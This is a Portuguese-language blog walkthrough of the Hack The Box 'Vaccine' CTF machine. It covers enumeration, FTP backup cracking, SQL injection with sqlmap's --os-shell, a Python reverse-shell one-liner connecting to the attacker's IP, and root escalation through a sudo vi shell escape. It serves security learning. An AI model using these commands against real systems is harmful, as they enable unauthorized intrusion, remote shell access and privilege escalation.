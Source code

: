 ```yaml
---
description: CTF do Hack The Box como fiz e anotações.
title: HackTheBox - Vaccine - Fácil
date: 2024-01-14 04:22:00 +/-0300
categories: [CTF, HackTheBox]
tags: [ctf, hackthebox, linux, sudo, web, facil, sqli, walk]     # TAG names should always be lowercase
show_image_post: true
---
```

![logo](/assets/img/vaccinelogo.png){: w="100" h="100" .left}

---
# **CTF - HTB Vaccine - Fácil**
---
---
## **Enumeração**

### nmap

```shell
sudo nmap -sS -Pn -n --disable-arp-ping --stats-every=7s -sC 10.129.254.54 -T4 -p 21,22,80 --min-rate 10000 -oA nmap 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-12 04:31 EST
Nmap scan report for 10.129.254.54
Host is up (0.15s latency).

PORT   STATE SERVICE
21/tcp open  ftp
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.14.151
|      Logged in as ftpuser
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxr-xr-x    1 0        0            2533 Apr 13  2021 backup.zip
22/tcp open  ssh
| ssh-hostkey: 
|   3072 c0:ee:58:07:75:34:b0:0b:91:65:b2:59:56:95:27:a4 (RSA)
|   256 ac:6e:81:18:89:22:d7:a7:41:7d:81:4f:1b:b8:b2:51 (ECDSA)
|_  256 42:5b:c3:21:df:ef:a2:0b:c9:5e:03:42:1d:69:d0:28 (ED25519)
80/tcp open  http
|_http-title: MegaCorp Login
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set

```
{: .nolineno }
### gobuster

```shell
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
http://10.129.254.54/.htpasswd            (Status: 403) [Size: 278]
http://10.129.254.54/.htaccess.old        (Status: 403) [Size: 278]
http://10.129.254.54/.htpasswd.old        (Status: 403) [Size: 278]
http://10.129.254.54/.htpasswd.txt        (Status: 403) [Size: 278]
http://10.129.254.54/.htpasswd.php        (Status: 403) [Size: 278]
http://10.129.254.54/.htaccess.php        (Status: 403) [Size: 278]
http://10.129.254.54/.htaccess.txt        (Status: 403) [Size: 278]
http://10.129.254.54/.htaccess            (Status: 403) [Size: 278]
http://10.129.254.54/dashboard.php        (Status: 200) [Size: 2312]
http://10.129.254.54/index.php            (Status: 200) [Size: 2312]
http://10.129.254.54/license.txt          (Status: 200) [Size: 1100]
http://10.129.254.54/server-status        (Status: 403) [Size: 278]
Progress: 81876 / 81880 (100.00%)
===============================================================
```
{: .nolineno }

A pagina inicial é uma tela de login.  
O ftp permite login anonymous, encontrando backup.zip com senha -> "741852963", resolvida com John The Ripper.

``
$zip2john backup.zip > hash  
``  
``
$john hash
``

Dentro do zip foi encontrado:
index.php
onde contem login e senha.

```php
admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3") 
```
{: .nolineno }

Hash "2cb42f8734ea607eefed3b70af13bbd3" = "qwerty789".  
Obtida em banco de dados de algum site.  
login e senha aceitos na pagina inicial;

Pagina Web vulnerável a SQLInjection.

![sqli](/assets/img/vaccine1.png)

## **Acesso**

### Reverse Shell

Com sqlmap foi possível confirmar e ler o db, nada de util, porem existe a opção ``--os-shell``
que você pode executar um comando, no caso vamos usar para executar uma reverse shell.

`sqlmap -u 'http://10.129.254.54/dashboard.php?search=a' --cookie="PHPSESSID=pt0gp6cl43a3lvq63atkn90j7b" --os-shell`

o `--cookie` é necessário para manter a sessão

comando de reverse shell executado

python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.14.151",4443));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/sh")'

Shell Upgrade

```shell
python3 -c 'import pty;pty.spawn("/bin/bash")'  
CTRL+Z  
stty raw -echo  
fg  
export TERM=xterm  
```
{: .nolineno }

## **Obtendo credenciais**

Pegando a senha do db em: cat  /var/www/html/dashboard.php  
`user=postgres password=P@s5w0rd!"`

A shell cai e poucos minutos e com essa senha podemos logar via ssh.

### Primeira flag

`cat user.txt`  
`ec9b13ca4d6229cd5cc1e09980965bf7`  

## **Escalação de Privilégio**  

Agora podemos executar o sudo -l  e ver algum possível escalamento de privilégio.  

```shell
$sudo -l
User postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
```
  {: .nolineno }

  Consultando o  [GTO](https://gtfobins.github.io/gtfobins/vi/#sudo) ele nos da essa opção
  
`sudo vi -c ':!/bin/sh' /dev/null`
   
```shell
postgres@vaccine:~$ sudo vi -c ':!/bin/sh' /dev/null
Sorry, user postgres is not allowed to execute '/usr/bin/vi -c :!/bin/sh /dev/null' as root on vaccine.
```
{: .nolineno }

Só podemos usar o vi em `etc/postgresql/11/main/pg_hba.conf`,
  a alternativa que o GTO nos da é:
  
`vi`  
`:set shell=/bin/sh`  
`:shell`

sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
usamos:  
`:`  
`set shell=/bin/sh`  
`[enter]`   
`:`  
`shell`  
`[enter]`  

### Ultima flag
```shell
$whoami  
root
$root@vaccine:~# cat root.txt 
dd6e058e814260bc70e9bbdef2715849
$root@vaccine:~# 
```
{: .nolineno }
![pwned](/assets/img/vaccine3.png)